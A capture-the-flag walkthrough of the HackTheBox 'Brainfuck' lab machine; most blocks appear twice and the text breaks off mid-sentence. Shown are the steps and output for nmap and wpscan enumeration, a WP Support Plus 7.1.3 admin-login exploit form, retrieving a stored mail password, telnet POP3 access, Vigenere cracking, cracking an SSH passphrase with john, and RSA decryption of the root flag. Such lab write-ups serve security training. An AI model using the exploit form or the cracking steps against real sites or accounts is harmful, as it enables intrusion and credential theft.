

hackthebox Brainfuck
Released: 29th April 2017 / Pwned: 20th September 2019 - [+] Solved whilst Retired
Brainfuck is made of many steps. The initial entry up to the super secret forum is relatively straightforward, but both challenges from that point on rely on cracking encryption.
Summary
• Runwpscan against brainfuck.htb to find installed plugins• Exploit the
WP Support Plus Responsive Ticket System 7.1.3 plugin with priv-esc vuln to login as admin• Retrieve orestis's email password from the Easy WP SMTP settings
• Log in to orestis's email and find credentials to sup3rs3cr3t.brainfuck.htb
• Crack the vigenere cipher orestis is using to talk to the admin
• Crack the id_rsa passphrase with ssh2john and john, and log in as orestis using the ssh key and passphrase
• Use the p, q and e values in debug.txt to crack the encrypted root.txt in output.txt with
user13741's script - https://crypto.stackexchange.com/questions/19444/rsa-given-q-p-and-e1) Nmap
Find all TCP ports:
nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.17Service detection and script scan open TCP ports:
nmap -p 22,25,110,143,443 -T4 -sV -sC -O -oN nmap/tcp-openports.txt 10.10.10.17-T4 aggressive scan
-sV service enumeration
-sC default scripts
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/brainfuck# mkdir nmap
root@gotham:~/ctf/brainfuck# nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.17
[..]
PORT STATE SERVICE
22/tcp open ssh
25/tcp open smtp
110/tcp open pop3
143/tcp open imap
443/tcp open https
root@gotham:~/ctf/brainfuck# nmap -p 22,25,110,143,443 -T4 -sV -sC -O -oN nmap/tcp-openports.txt 10.10.10.17
[...]
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 94:d0:b3:34:e9:a5:37:c5:ac:b9:80:df:2a:54:a5:f0 (RSA)
| 256 6b:d5:dc:15:3a:66:7a:f4:19:91:5d:73:85:b2:4c:b2 (ECDSA)
|_ 256 23:f5:a3:33:33:9d:76:d5:f2:ea:69:71:e3:4e:8e:02 (ED25519)
25/tcp open smtp Postfix smtpd
|_smtp-commands: brainfuck, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
110/tcp open pop3 Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) UIDL RESP-CODES AUTH-RESP-CODE TOP USER CAPA PIPELINING
143/tcp open imap Dovecot imapd
|_imap-capabilities: IDLE post-login more capabilities listed OK have IMAP4rev1 Pre-login ENABLE LITERAL+ LOGIN-REFERRALS AUTH=PLAINA0001 SASL-IR ID
443/tcp open ssl/http nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title: Welcome to nginx!
| ssl-cert: Subject: commonName=brainfuck.htb/organizationName=Brainfuck Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.brainfuck.htb, DNS:sup3rs3cr3t.brainfuck.htb
| Not valid before: 2017-04-13T11:19:29
|_Not valid after: 2027-04-11T11:19:29
|_ssl-date: ERROR: Script execution failed (use -d to debug)
| tls-alpn:
|_ http/1.1
| tls-nextprotoneg:
|_ http/1.1
[...]
root@gotham:~/ctf/brainfuck# nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.17
[..]
PORT STATE SERVICE
22/tcp open ssh
25/tcp open smtp
110/tcp open pop3
143/tcp open imap
443/tcp open https
root@gotham:~/ctf/brainfuck# nmap -p 22,25,110,143,443 -T4 -sV -sC -O -oN nmap/tcp-openports.txt 10.10.10.17
[...]
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 94:d0:b3:34:e9:a5:37:c5:ac:b9:80:df:2a:54:a5:f0 (RSA)
| 256 6b:d5:dc:15:3a:66:7a:f4:19:91:5d:73:85:b2:4c:b2 (ECDSA)
|_ 256 23:f5:a3:33:33:9d:76:d5:f2:ea:69:71:e3:4e:8e:02 (ED25519)
25/tcp open smtp Postfix smtpd
|_smtp-commands: brainfuck, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
110/tcp open pop3 Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) UIDL RESP-CODES AUTH-RESP-CODE TOP USER CAPA PIPELINING
143/tcp open imap Dovecot imapd
|_imap-capabilities: IDLE post-login more capabilities listed OK have IMAP4rev1 Pre-login ENABLE LITERAL+ LOGIN-REFERRALS AUTH=PLAINA0001 SASL-IR ID
443/tcp open ssl/http nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title: Welcome to nginx!
| ssl-cert: Subject: commonName=brainfuck.htb/organizationName=Brainfuck Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.brainfuck.htb, DNS:sup3rs3cr3t.brainfuck.htb
| Not valid before: 2017-04-13T11:19:29
|_Not valid after: 2027-04-11T11:19:29
|_ssl-date: ERROR: Script execution failed (use -d to debug)
| tls-alpn:
|_ http/1.1
| tls-nextprotoneg:
|_ http/1.1
[...]
Analysis of results:
• 22/ssh - Nothing can be done with ssh for the time being, but useful to know for later
• 25/smtp, 110/pop3, 143/imap - Email is running, but without credentials we can't access anything
• 443/https - A website! And the only port worth examining for the time being. Note that Nmap also found 2 domain names by reading the SSL certificate -
brainfuck.htb and sup3rs3cr3t.brainfuck.htb2) 443/https
Add the domain names Nmap found to your
/etc/hosts file so that you can access them.
root@gotham:~/ctf/brainfuck# nano /etc/hosts
[...]
10.10.10.17 brainfuck.htb
10.10.10.17 sup3rs3cr3t.brainfuck.htb
[...]
10.10.10.17 brainfuck.htb
10.10.10.17 sup3rs3cr3t.brainfuck.htb
2a) https://10.10.10.17
https://10.10.10.17 is an nginx default install page.Gobuster doesn't find anything.

2b) https://sup3rs3cr3t.brainfuck.htb
https://sup3rs3cr3t.brainfuck.htb is a forum.
Gobuster finds a few results, but to go any further we need login credentials.

2c) https://brainfuck.htb
https://brainfuck.htb is a WordPress site, with nothing much on it.Notice that the user
admin has posted the Dev Update post.
Considering it's a WordPress site, run
wpscan.
root@gotham:~/ctf/brainfuck/brainfuck.htb# wpscan --url https://brainfuck.htb --disable-tls-checks
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version 3.6.3
Sponsored by Sucuri - https://sucuri.net
@_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________
[+] URL: https://brainfuck.htb/
[...]
[+] wp-support-plus-responsive-ticket-system
| Location: https://brainfuck.htb/wp-content/plugins/wp-support-plus-responsive-ticket-system/
| Last Updated: 2019-09-03T07:57:00.000Z
| [!] The version is out of date, the latest version is 9.1.2
|
| Detected By: Urls In Homepage (Passive Detection)
|
| [!] 4 vulnerabilities identified:
|
| [!] Title: WP Support Plus Responsive Ticket System <= 7.1.3 – Authenticated SQL Injection
| Fixed in: 8.0.0
| References:
| - https://wpvulndb.com/vulnerabilities/8699
| - https://www.exploit-db.com/exploits/40939/
| - http://lenonleite.com.br/en/blog/2016/12/13/wp-support-plus-responsive-ticket-system-wordpress-plugin-sql-injection/
| - https://plugins.trac.wordpress.org/changeset/1556644/wp-support-plus-responsive-ticket-system
|
[...]
|
| Version: 7.1.3 (100% confidence)
| Detected By: Readme - Stable Tag (Aggressive Detection)
| - https://brainfuck.htb/wp-content/plugins/wp-support-plus-responsive-ticket-system/readme.txt
| Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
| - https://brainfuck.htb/wp-content/plugins/wp-support-plus-responsive-ticket-system/readme.txt
[..]
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version 3.6.3
Sponsored by Sucuri - https://sucuri.net
@_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________
[+] URL: https://brainfuck.htb/
[...]
[+] wp-support-plus-responsive-ticket-system
| Location: https://brainfuck.htb/wp-content/plugins/wp-support-plus-responsive-ticket-system/
| Last Updated: 2019-09-03T07:57:00.000Z
| [!] The version is out of date, the latest version is 9.1.2
|
| Detected By: Urls In Homepage (Passive Detection)
|
| [!] 4 vulnerabilities identified:
|
| [!] Title: WP Support Plus Responsive Ticket System <= 7.1.3 – Authenticated SQL Injection
| Fixed in: 8.0.0
| References:
| - https://wpvulndb.com/vulnerabilities/8699
| - https://www.exploit-db.com/exploits/40939/
| - http://lenonleite.com.br/en/blog/2016/12/13/wp-support-plus-responsive-ticket-system-wordpress-plugin-sql-injection/
| - https://plugins.trac.wordpress.org/changeset/1556644/wp-support-plus-responsive-ticket-system
|
[...]
|
| Version: 7.1.3 (100% confidence)
| Detected By: Readme - Stable Tag (Aggressive Detection)
| - https://brainfuck.htb/wp-content/plugins/wp-support-plus-responsive-ticket-system/readme.txt
| Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
| - https://brainfuck.htb/wp-content/plugins/wp-support-plus-responsive-ticket-system/readme.txt
[..]
wpscan finds that a plugin installed is vulnerable - wp-support-plus-responsive-ticket-system.The authenticated SQL injection won't work because we don't have credentials, but if you google for further exploits of the 7.1.3 version of the plugin, you'll find an exploitdb entry - https://www.exploit-db.com/exploits/41006
3) WordPress Ticket System 7.1.3 - Privilege Escalation
https://www.exploit-db.com/exploits/41006
Modify the proof of concept in the article to send a request to
brainfuck.htb
root@gotham:~/ctf/brainfuck/brainfuck.htb# nano privesc.html
<!-- WP Support Plus Responsive Ticket System 7.1.3 Privilege Escalation -->
<html>
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
Username: <input type="text" name="username" value="administrator">
<input type="hidden" name="email" value="sth">
<input type="hidden" name="action" value="loginGuestFacebook">
<input type="submit" value="Login">
</form>
</html>
<!-- WP Support Plus Responsive Ticket System 7.1.3 Privilege Escalation -->
<html>
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
Username: <input type="text" name="username" value="administrator">
<input type="hidden" name="email" value="sth">
<input type="hidden" name="action" value="loginGuestFacebook">
<input type="submit" value="Login">
</form>
</html>
Open the exploit form in your browser (you can drag and drop the file into firefox as a tab).
Enter
admin as the username, and Login.You should get authenticated!
Go back to https://brainfuck.htb and you should see that you're logged in as
admin.Hover over Brainfuck Ltd. and access the Dashboard
4) WordPress Dashboard - SMTP
We can't get a shell from the dashboard because we don't have write access to any of the web pages.
Instead, check the settings of the
Easy WP SMTP plugin.Plugins > Installed Plugins > Easy WP SMTP Settings
Here, you'll find the password for orestis's email saved in the form.
You can read the password from the source - Hightlight the password > Right click > Inspect Element.
We have login credentials for Orestis' email:
orestis@brainfuck.htb
kHGuERB29DNiNE5) 110/pop3 - Orestis's Email
Use the credentials above to log in to Orestis's email over port 110.
root@gotham:~/ctf/brainfuck/25# telnet 10.10.10.17 110
Trying 10.10.10.17...
Connected to 10.10.10.17.
Escape character is '^]'.
+OK Dovecot ready.
USER orestis
+OK
PASS kHGuERB29DNiNE
+OK Logged in.
LIST
+OK 2 messages:
1 977
2 514
.
RETR 2
+OK 514 octets
Return-Path: <root@brainfuck.htb>
X-Original-To: orestis
Delivered-To: orestis@brainfuck.htb
Received: by brainfuck (Postfix, from userid 0)
id 4227420AEB; Sat, 29 Apr 2017 13:12:06 +0300 (EEST)
To: orestis@brainfuck.htb
Subject: Forum Access Details
Message-Id: <20170429101206.4227420AEB@brainfuck>
Date: Sat, 29 Apr 2017 13:12:06 +0300 (EEST)
From: root@brainfuck.htb (root)
Hi there, your credentials for our "secret" forum are below :)
username: orestis
password: kIEnnfEKJ#9UmdO
Regards
.
Trying 10.10.10.17...
Connected to 10.10.10.17.
Escape character is '^]'.
+OK Dovecot ready.
USER orestis
+OK
PASS kHGuERB29DNiNE
+OK Logged in.
LIST
+OK 2 messages:
1 977
2 514
.
RETR 2
+OK 514 octets
Return-Path: <root@brainfuck.htb>
X-Original-To: orestis
Delivered-To: orestis@brainfuck.htb
Received: by brainfuck (Postfix, from userid 0)
id 4227420AEB; Sat, 29 Apr 2017 13:12:06 +0300 (EEST)
To: orestis@brainfuck.htb
Subject: Forum Access Details
Message-Id: <20170429101206.4227420AEB@brainfuck>
Date: Sat, 29 Apr 2017 13:12:06 +0300 (EEST)
From: root@brainfuck.htb (root)
Hi there, your credentials for our "secret" forum are below :)
username: orestis
password: kIEnnfEKJ#9UmdO
Regards
.
Great! We know have credentials to access the sup3rs3cret forum :)
username: orestis
password: kIEnnfEKJ#9UmdO6) https://sup3rs3cr3t.brainfuck.htb
Log in to the site using
orestis's credentials.You'll now be able to view 2 previously hidden forum posts -
SSH Access and Key.In
SSH Access, orestis asks the admin for his ssh key.Key is the encrypted chat orestis opens to retrieve his key from the admin.6a) Identify encryption
If you look at
SSH Access, you'll see that orestis signs all of their messages with Orestis - Hacking for fun and profitIf you check
Key, despite the encryption, you'll recognise that they're still signing their messages with the same phraseHowever,
Orestis - Hacking for fun and profit is different every time.This means that this is either a caesar cipher, but every forum post has different key, OR that this is a vigenere cipher, and that orestis' signature is different every time because the number of characters in each message is different.
A caesar cipher that changes every post wouldn't a friendly way for 2 users to communicate, so it's most likely a vigenere cipher.
6b) Crack Vigenere Cipher - Find Key Length with Frequency Analysis
To crack a vigenere cipher, you need to find the key length.
To find the key length, you have to find a sequence/string within the cipher text that repeats.
You then calculate the difference between the start of the 1st string and the start of the 2nd, which will give you your key length.
In
admin's forum post where he links the URL
Ybgbq wpl gw lto udgnju fcpp, C jybc zfu zrryolqp zfuz xjs rkeqxfrl ojwceec J uovg
mnvze://10.10.10.17/8zb5ra10m915218697q1h658wfoq0zc8/frmfycu/sp_ptr
mnvze://10.10.10.17/8zb5ra10m915218697q1h658wfoq0zc8/frmfycu/sp_ptr
there's a repetition -
zfu zrryolqp zfuz xjs.zfuz repeats twice.The difference between the
z in the first zfuz and the start of second zfuz is 11 characters, which means that this vigenere key is 11 characters long.6c) Crack Vigenere Cipher - Brute-force possible keys
The next step, after discovering the key length, is to brute-force characters in the key using a known bit of ciphertext.
zfu is a 3 letter word.zfuz is a 4 letter word.The first 3 letters in both words are the same.
To brute-force
zfuz, we need to find a 3 and 4 letter word where the first 3 letters in both words are the same.I checked this website - https://www3.nd.edu/~busiforc/handouts/cryptography/cryptography%20hints.html - and found 2 options:
you and yourthe and theyExcellent! Now we just need to brute-force a key.
You could write a python script, but I used GCHQ's Cyber Chef - https://gchq.github.io/CyberChef/#recipe=Vigen%C3%A8re_Decode('')&input=emZ1eg
I started with
your, and tried every letter in the alphabet until z translated to y, and then brute-forced the next character until f translated to o, etc.bra decodes zfu to you.brai decodes zfuz to your.You've successfully decoded
zfuz to your, and found the first 4 letters of key!However, at this point you're stuck, with no other characters left to decode.
To continue, we need another known bit of cipher text.
Looking at the encrypted messages, there are some identifiable strings:
•
mnvze:// = https•
/sp_ptr = id_rsa•
/frmfycu = orestis• Orestis - Hacking for fun and profit
◇
Pieagnm - Jkoijeg nbw zwx mle grwsnn◇
Wejmvse - Fbtkqal zqb rso rnl cwihsf◇
Qbqquzs - Pnhekxs dpi fca fhf zdmgztbrai doesn't successfully decode mnvze:// to https://, try another known string.sp_ptr doesn't decode to id_rsa.The problem is that our key is position dependant (if that's the right term?).
As in, our key is 11 characters long, but the message is, for example, 50 characters long.
The key will encode the first 11 characters of the message, but once it reaches the 12th character in the message, the key will cycle back and use the first character in the key again.
mnvze and sp_ptr are all different points in the message, not at the start, which means that the key and message don't line up.Try
Pieagnm - Jkoijeg nbw zwx mle grwsnn.brai decodes the string to this - Oresfwm - Bjxibdp ntv iwp lue yqfsfmThe first 4 decoded letters are correct -
Ores, which means that brai decoded the string correctly.We've, luckily, found a bit of ciphertext that lines up with our key.
We can now use the rest of the string -
Pieagnm - Jkoijeg nbw zwx mle grwsnn - to brute-force the rest of the key.As before, try every letter in the alphabet (and maybe a little bit of educated guesswork) until the key decodes
Pieagnm - Jkoijeg nbw zwx mle grwsnn to Orestis - Hacking for fun and profit correctly.brai
brain
brainf
brainfu
brainfuc
brainfuck
brainfuckm
brainfuckmy
brainfuckmy is 11 characters long, and decodes the entire string correctly!However, when translating the entire message, we get gibberish.
This is because the key isn't in the correct order.
6d) Re-order Key
brainfuckmy correctly decodes from Pieagnm onwards.Pieagnm is 28 characters into the message.
Mya qutf de buj otv rms dy srd vkdof
Pieagnm - Jkoijeg nbw zwx mle grwsnn
Pieagnm - Jkoijeg nbw zwx mle grwsnn
To find which characters need shifting around in the key, calculate how many times the key length (11) fits into 28, and subtract the difference.
11 + 11 = 22
28 - 22 = 6
The last 6 characters of the key need moving.
Take the last 6 letters of the key and move them to the start.
The correct of the key is -
fuckmybrain6e) Decode URL
With the key to cipher, we can decode the message containg the URL!
Ybgbq wpl gw lto udgnju fcpp, C jybc zfu zrryolqp zfuz xjs rkeqxfrl ojwceec J uovg
mnvze://10.10.10.17/8zb5ra10m915218697q1h658wfoq0zc8/frmfycu/sp_ptr
mnvze://10.10.10.17/8zb5ra10m915218697q1h658wfoq0zc8/frmfycu/sp_ptr
There you go you stupid fuck, I hope you remember your key password because I dont
https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa
https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa
If you translate the rest of the messages, you'll also see that Orestis is going to brute-force his ssh passphrase, which hints at what needs to be done next.
Gain Access
7) Brute-force id_rsa passphrase
Visit
https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa to download orestis's ssh key.Use
ssh2john to extract the hash, and use john to crack it with you rock.txt.
root@gotham:~/ctf/brainfuck# locate ssh2john
/usr/share/john/ssh2john.py
root@gotham:~/ctf/brainfuck# /usr/share/john/ssh2john.py id_rsa > id_rsa.john
root@gotham:~/ctf/brainfuck# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/32])
[...]
Press 'q' or Ctrl-C to abort, almost any other key for status
3poulakia! (id_rsa)
[...]
/usr/share/john/ssh2john.py
root@gotham:~/ctf/brainfuck# /usr/share/john/ssh2john.py id_rsa > id_rsa.john
root@gotham:~/ctf/brainfuck# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/32])
[...]
Press 'q' or Ctrl-C to abort, almost any other key for status
3poulakia! (id_rsa)
[...]
Change the permissions of the ssh key to 600, log in as
orestis, and grab user.txt.
root@gotham:~/ctf/brainfuck# chmod 600 id_rsa
root@gotham:~/ctf/brainfuck# ssh orestis@brainfuck.htb -i ./id_rsa
Enter passphrase for key './id_rsa': 3poulakia!
[...]
orestis@brainfuck:~$ cat user.txt
2c11cfbc5b959f73ac15a3310bd097c9
root@gotham:~/ctf/brainfuck# ssh orestis@brainfuck.htb -i ./id_rsa
Enter passphrase for key './id_rsa': 3poulakia!
[...]
orestis@brainfuck:~$ cat user.txt
2c11cfbc5b959f73ac15a3310bd097c9
Priv-Esc
8) Inspect /home/orestis
Read the files
/home/orestis
orestis@brainfuck:~$ ls -alh
total 104K
drwxr-xr-x 8 orestis orestis 4.0K Sep 20 17:41 .
drwxr-xr-x 3 root root 4.0K Apr 13 2017 ..
-rw------- 1 root root 1 Dec 24 2017 .bash_history
-rw-r--r-- 1 orestis orestis 220 Apr 13 2017 .bash_logout
-rw-r--r-- 1 orestis orestis 3.7K Apr 13 2017 .bashrc
drwx------ 2 orestis orestis 4.0K Apr 29 2017 .cache
drwxr-xr-x 3 root root 4.0K Apr 17 2017 .composer
-rw------- 1 orestis orestis 619 Apr 29 2017 debug.txt
-rw-rw-r-- 1 orestis orestis 580 Apr 29 2017 encrypt.sage
drwx------ 3 orestis orestis 4.0K Apr 29 2017 mail
-rw------- 1 orestis orestis 102 Sep 20 17:16 .mysql_history
-rw------- 1 orestis orestis 329 Apr 29 2017 output.txt
-rw-r--r-- 1 orestis orestis 655 Apr 13 2017 .profile
drwx------ 8 orestis orestis 4.0K Apr 29 2017 .sage
drwx------ 2 orestis orestis 4.0K Apr 17 2017 .ssh
-r-------- 1 orestis orestis 33 Apr 29 2017 user.txt
total 104K
drwxr-xr-x 8 orestis orestis 4.0K Sep 20 17:41 .
drwxr-xr-x 3 root root 4.0K Apr 13 2017 ..
-rw------- 1 root root 1 Dec 24 2017 .bash_history
-rw-r--r-- 1 orestis orestis 220 Apr 13 2017 .bash_logout
-rw-r--r-- 1 orestis orestis 3.7K Apr 13 2017 .bashrc
drwx------ 2 orestis orestis 4.0K Apr 29 2017 .cache
drwxr-xr-x 3 root root 4.0K Apr 17 2017 .composer
-rw------- 1 orestis orestis 619 Apr 29 2017 debug.txt
-rw-rw-r-- 1 orestis orestis 580 Apr 29 2017 encrypt.sage
drwx------ 3 orestis orestis 4.0K Apr 29 2017 mail
-rw------- 1 orestis orestis 102 Sep 20 17:16 .mysql_history
-rw------- 1 orestis orestis 329 Apr 29 2017 output.txt
-rw-r--r-- 1 orestis orestis 655 Apr 13 2017 .profile
drwx------ 8 orestis orestis 4.0K Apr 29 2017 .sage
drwx------ 2 orestis orestis 4.0K Apr 17 2017 .ssh
-r-------- 1 orestis orestis 33 Apr 29 2017 user.txt
There's an encryption script.
sage is a python mathematics library.
orestis@brainfuck:~$ cat encrypt.sage
nbits = 1024
password = open("/root/root.txt").read().strip()
enc_pass = open("output.txt","w")
debug = open("debug.txt","w")
m = Integer(int(password.encode('hex'),16))
p = random_prime(2^floor(nbits/2)-1, lbound=2^floor(nbits/2-1), proof=False)
q = random_prime(2^floor(nbits/2)-1, lbound=2^floor(nbits/2-1), proof=False)
n = p*q
phi = (p-1)*(q-1)
e = ZZ.random_element(phi)
while gcd(e, phi) != 1:
e = ZZ.random_element(phi)
c = pow(m, e, n)
enc_pass.write('Encrypted Password: '+str(c)+'\n')
debug.write(str(p)+'\n')
debug.write(str(q)+'\n')
debug.write(str(e)+'\n')
password = open("/root/root.txt").read().strip()
enc_pass = open("output.txt","w")
debug = open("debug.txt","w")
m = Integer(int(password.encode('hex'),16))
p = random_prime(2^floor(nbits/2)-1, lbound=2^floor(nbits/2-1), proof=False)
q = random_prime(2^floor(nbits/2)-1, lbound=2^floor(nbits/2-1), proof=False)
n = p*q
phi = (p-1)*(q-1)
e = ZZ.random_element(phi)
while gcd(e, phi) != 1:
e = ZZ.random_element(phi)
c = pow(m, e, n)
enc_pass.write('Encrypted Password: '+str(c)+'\n')
debug.write(str(p)+'\n')
debug.write(str(q)+'\n')
debug.write(str(e)+'\n')
encrypt.sage encrypts the root flag in /root/root.txt and writes it to output.txt.It also prints the
p, q and e variables into debug.txt, each separated by a new line.
orestis@brainfuck:~$ cat debug.txt
7493025776465062819629921475535241674460826792785520881387158343265274170009282504884941039852933109163193651830303308312565580445669284847225535166520307
7020854527787566735458858381555452648322845008266612906844847937070333480373963284146649074252278753696897245898433245929775591091774274652021374143174079
30802007917952508422792869021689193927485016332713622527025219105154254472344627284947779726280995431947454292782426313255523137610532323813714483639434257536830062768286377920010841850346837238015571464755074669373110411870331706974573498912126641409821855678581804467608824177508976254759319210955977053997
7493025776465062819629921475535241674460826792785520881387158343265274170009282504884941039852933109163193651830303308312565580445669284847225535166520307
7020854527787566735458858381555452648322845008266612906844847937070333480373963284146649074252278753696897245898433245929775591091774274652021374143174079
30802007917952508422792869021689193927485016332713622527025219105154254472344627284947779726280995431947454292782426313255523137610532323813714483639434257536830062768286377920010841850346837238015571464755074669373110411870331706974573498912126641409821855678581804467608824177508976254759319210955977053997
p = 7493025776465062819629921475535241674460826792785520881387158343265274170009282504884941039852933109163193651830303308312565580445669284847225535166520307
q = 7020854527787566735458858381555452648322845008266612906844847937070333480373963284146649074252278753696897245898433245929775591091774274652021374143174079
e = 30802007917952508422792869021689193927485016332713622527025219105154254472344627284947779726280995431947454292782426313255523137610532323813714483639434257536830062768286377920010841850346837238015571464755074669373110411870331706974573498912126641409821855678581804467608824177508976254759319210955977053997
orestis@brainfuck:~$ cat output.txt
Encrypted Password: 44641914821074071930297814589851746700593470770417111804648920018396305246956127337150936081144106405284134845851392541080862652386840869768622438038690803472550278042463029816028777378141217023336710545449512973950591755053735796799773369044083673911035030605581144977552865771395578778515514288930832915182
Encrypted Password: 44641914821074071930297814589851746700593470770417111804648920018396305246956127337150936081144106405284134845851392541080862652386840869768622438038690803472550278042463029816028777378141217023336710545449512973950591755053735796799773369044083673911035030605581144977552865771395578778515514288930832915182
9) RSA Decrypt
If you google some of the lines from the script, you'll find that it's an RSA encryption script.
We're given the p, q and e values used in the encryption, as well as the cipher text to decode, which means that we should be able to decode it to plaintext.
Googling for
rsa decrypt p q e gives a stack overflow answer - https://crypto.stackexchange.com/questions/19444/rsa-given-q-p-and-e - where user13741 has written a script to extract plaintext from ciphertext using the p, q, and e values.Modify the script and replace the
p, q, e and ct variables with the values found in debug.txt.
root@gotham:~/ctf/brainfuck# nano rsadecrypt.py
def egcd(a, b):
x,y, u,v = 0,1, 1,0
while a != 0:
q, r = b//a, b%a
m, n = x-u*q, y-v*q
b,a, x,y, u,v = a,r, u,v, m,n
gcd = b
return gcd, x, y
def main():
p = 7493025776465062819629921475535241674460826792785520881387158343265274170009282504884941039852933109163193651830303308312565580445669284847225535166520307
q = 7020854527787566735458858381555452648322845008266612906844847937070333480373963284146649074252278753696897245898433245929775591091774274652021374143174079
e = 30802007917952508422792869021689193927485016332713622527025219105154254472344627284947779726280995431947454292782426313255523137610532323813714483639434257536830062768286377920010841850346837238015571464755074669373110411870331706974573498912126641409821855678581804467608824177508976254759319210955977053997
ct = 44641914821074071930297814589851746700593470770417111804648920018396305246956127337150936081144106405284134845851392541080862652386840869768622438038690803472550278042463029816028777378141217023336710545449512973950591755053735796799773369044083673911035030605581144977552865771395578778515514288930832915182
# compute n
n = p * q
# Compute phi(n)
phi = (p - 1) * (q - 1)
# Compute modular inverse of e
gcd, a, b = egcd(e, phi)
d = a
print( "n: " + str(d) );
# Decrypt ciphertext
pt = pow(ct, d, n)
print( "pt: " + str(pt) )
if __name__ == "__main__":
main()
x,y, u,v = 0,1, 1,0
while a != 0:
q, r = b//a, b%a
m, n = x-u*q, y-v*q
b,a, x,y, u,v = a,r, u,v, m,n
gcd = b
return gcd, x, y
def main():
p = 7493025776465062819629921475535241674460826792785520881387158343265274170009282504884941039852933109163193651830303308312565580445669284847225535166520307
q = 7020854527787566735458858381555452648322845008266612906844847937070333480373963284146649074252278753696897245898433245929775591091774274652021374143174079
e = 30802007917952508422792869021689193927485016332713622527025219105154254472344627284947779726280995431947454292782426313255523137610532323813714483639434257536830062768286377920010841850346837238015571464755074669373110411870331706974573498912126641409821855678581804467608824177508976254759319210955977053997
ct = 44641914821074071930297814589851746700593470770417111804648920018396305246956127337150936081144106405284134845851392541080862652386840869768622438038690803472550278042463029816028777378141217023336710545449512973950591755053735796799773369044083673911035030605581144977552865771395578778515514288930832915182
# compute n
n = p * q
# Compute phi(n)
phi = (p - 1) * (q - 1)
# Compute modular inverse of e
gcd, a, b = egcd(e, phi)
d = a
print( "n: " + str(d) );
# Decrypt ciphertext
pt = pow(ct, d, n)
print( "pt: " + str(pt) )
if __name__ == "__main__":
main()
Run the script, and it will succesfully decode the ciphertext to plaintext.
root@gotham:~/ctf/brainfuck# python rsadecrypt.py
n: 8730619434505424202695243393110875299824837916005183495711605871599704226978295096241357277709197601637267370957300267235576794588910779384003565449171336685547398771618018696647404657266705536859125227436228202269747809884438885837599321762997276849457397006548009824608365446626232570922018165610149151977
pt: 24604052029401386049980296953784287079059245867880966944246662849341507003750
n: 8730619434505424202695243393110875299824837916005183495711605871599704226978295096241357277709197601637267370957300267235576794588910779384003565449171336685547398771618018696647404657266705536859125227436228202269747809884438885837599321762997276849457397006548009824608365446626232570922018165610149151977
pt: 24604052029401386049980296953784287079059245867880966944246662849341507003750
The plaintext should be the contents of
/root/root.txt.However, the printed plaintext doesn't look like a root flag.
This line from the original encrypt.sage -
m = Integer(int(password.encode('hex'),16)) - converts the root flag into a hexadecimal string - password.encode('hex') - and then converts that hexadecimal value from base 16 to base 10 - int(hex_root_flag,16).Therefore, the plaintext that
